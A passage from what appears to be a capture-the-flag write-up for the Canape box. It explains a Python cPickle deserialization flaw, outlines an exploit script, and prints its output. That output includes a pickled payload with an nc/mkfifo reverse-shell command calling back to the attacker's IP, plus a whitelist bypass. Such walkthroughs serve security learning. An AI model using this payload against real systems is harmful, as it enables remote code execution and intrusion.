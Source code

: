         if "p1" in data:
            item = cPickle.loads(data)
        else:
            item = data

        return "Still reviewing: " + item



`cPickle.loads` will run the object's `__reduce__` method when it is
unpickled. So an attacker can create a class with a `__reduce__`
function that executes their desired commands, pickle an instance of
that class, and pass that string to canape.

## www-data Shell

### Outline

Scripted up getting a shell:

-   Creates Exploit class which takes a cmd and sets up the `__reduce__`
    function.
-   Command also includes the string "moe" so that it will pass the
    whitelist.
-   Script takes an IP and port to get callback on.
-   Default command is using pipes and nc to get a shell on given
    port/ip.
-   Creates an instance of the Exploit class.
-   Passes instance to cPickle.dumps to get the serialized string.
-   Breaks that string so that all but the last character go into char,
    and the last char goes into quote.
-   Calculates the id that will be used on the server.
-   Posts to /submit the char and quote.
-   Posts to /check the id.
-   Profit!

    <div>

    <div>

        root@kali# ./get_canape_shell.py 10.10.15.48 4444
        [*] Filename will be: d95b296a74924cca43c2e27fa2fadc6f
        [*] Exploit:
        cposix
        system
        p1
        (S'echo moe && rm /tmp/0xdf; mkfifo /tmp/0xdf; cat /tmp/0xdf | /bin/sh -i 2>&1 | nc 10.10.15.48 4444 > /tmp/0xdf'
        tRp2
        .
        [+] Sending exploit...
        [+] Exploit successfully submitted
        [+] Triggering exploit with /check, id = d95b296a74924cca43c2e27fa2fadc6f

    </div>
